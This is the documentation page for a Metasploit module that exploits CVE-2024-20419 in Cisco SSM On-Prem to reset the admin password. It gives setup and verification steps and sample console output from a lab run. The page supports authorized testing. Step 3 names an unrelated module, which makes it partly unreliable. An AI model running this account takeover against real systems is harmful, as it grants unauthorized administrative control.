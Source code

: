 ## Vulnerable Application

This module exploits an account takeover vulnerability in Cisco SSM On-Prem <= 8-202206 (CVE-2024-20419), by changing the password of the
admin user.

The vendor published an advisory [here]
(https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cssm-auth-sLw3uhUy). The original research blog
is available [here](https://www.0xpolar.com/blog/CVE-2024-20419).

## Testing

The software can be obtained from the [vendor](https://software.cisco.com/download/home/286285506/type/286326948/release/9-202407).

Deploy it by following the vendor's [installation guide]
(https://www.cisco.com/web/software/286285517/152313/Smart_Software_Manager_On-Prem_8-202006_Installation_Guide.pdf).

**Successfully tested on**

- Cisco Smart Software Manager v8-202206.

## Verification Steps

1. Deploy Cisco Smart Software Manager v8-202206
2. Start `msfconsole`
3. `use auxiliary/admin/http/fortra_filecatalyst_workflow_sqli`
4. `set RHOSTS <IP>`
5. `set NEW_PASSWORD <password>`
6. `run`
7. A new password should have been set for the admin account.

## Options

### NEW_PASSWORD
Password to be used when creating a new user with admin privileges.

## Scenarios

Running the module against Smart Software Manager v8-202206 should result in an output
similar to the following:

```
msf6 > use auxiliary/admin/http/cisco_ssm_onprem_account 
msf6 auxiliary(admin/http/cisco_ssm_onprem_account) > set RHOSTS 192.168.137.200
msf6 auxiliary(admin/http/cisco_ssm_onprem_account) > set SSL true
msf6 auxiliary(admin/http/cisco_ssm_onprem_account) > exploit 
[*] Running module against 192.168.137.200

[*] Starting workflow...
[+] Server reachable.
[*] xsrf_token: B%2BxNjt72KTh%2BW%2FYhUkSFpTKE5uM1NUkZdBMkle5C1DDpr9P9lPyPDN556BImuPHfSsdy4W4blO8R%2BvtX%2FLK%2B1A%3D%3D
[*] xsrf_token: B+xNjt72KTh+W/YhUkSFpTKE5uM1NUkZdBMkle5C1DDpr9P9lPyPDN556BImuPHfSsdy4W4blO8R+vtX/LK+1A==
[*] _lic_engine_session: f517481befa8b1a7cddcb1d755b8163c
[+] Server reachable.
[*] auth_token: 21bf4695d594af3bd5f0f07db2ce8f09f29abe6f9295e2649e3fa5f266ada2a1
[+] Server reachable.
[*] Auxiliary module execution completed
```
